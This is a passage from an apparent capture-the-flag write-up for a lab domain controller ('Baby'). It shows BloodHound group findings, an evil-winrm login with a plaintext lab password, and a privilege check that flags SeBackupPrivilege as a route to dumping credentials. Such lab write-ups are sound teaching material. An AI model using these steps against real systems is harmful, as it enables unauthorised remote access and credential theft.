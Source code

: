 Following from the files being uploaded to the bloodhound web application, we are able to identify that Caroline is in the Backup Operators group:
![bl3](../assets/posts/baby/bl3.png)

The bloodhound output showcased that caroline is part of the remote management users group, meaning that it will be possible to Evil-WinRM into the machine using the credentials:
```bash
evil-winrm -i BabyDC.baby.vl -u "Caroline.Robinson" -p "PwnBaby1234"
```
![shell1](../assets/posts/baby/shell1.png)

Now that we have a shell as caroline, we can check the privileges to potentially dump credentials:
```bash
whoami /priv
```
![shell2](../assets/posts/baby/shell2.png)

The privilege that stands out is:
```bash
SeBackupPrivilege             Back up files and directories  Enabled
```

